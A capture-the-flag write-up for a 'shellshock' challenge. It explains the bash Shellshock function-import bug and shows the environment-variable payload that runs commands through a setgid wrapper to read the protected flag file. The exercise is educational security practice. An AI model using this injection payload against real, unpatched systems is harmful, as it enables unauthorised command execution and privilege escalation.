 We are given 4 files:
```bash
shellshock@pwnable:~$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

Interesting... We are given a bash file which if we execute seems to act like regular bash.

Let's examine `shellshock.c` (Which at that point i already thought about the well-known vulnerabillity in bash which is ironically named 'shellshock')

```c
#include <stdio.h>
int main(){
        setresuid(getegid(), getegid(), getegid());
        setresgid(getegid(), getegid(), getegid());
        system("/home/shellshock/bash -c 'echo shock_me'");
        return 0;
}
```

Well, this is not really interesting but we can try to exploit this bash version using the environment variable manipulation of 'shellshock' CVE.

The problem in bash back then was about bash incorrectly executing commands that were put after an imported function set in an environment variable, for example:

`env_var='() { :; }; echo hey' ./shellshock`

```bash
shellshock@pwnable:~$ env_var='() { :;}; echo hey' ./shellshock
hey
/home/shellshock/bash: warning: setlocale: LC_ALL: cannot change locale (en_IN.UTF-8)
shock_me
```

Would actually execute our inserted `echo` before the command instructed to execute in the program's bash call.

Meaning we can `cat` the flag.

`env_var='() { :; }; cat flag' ./shellshock`




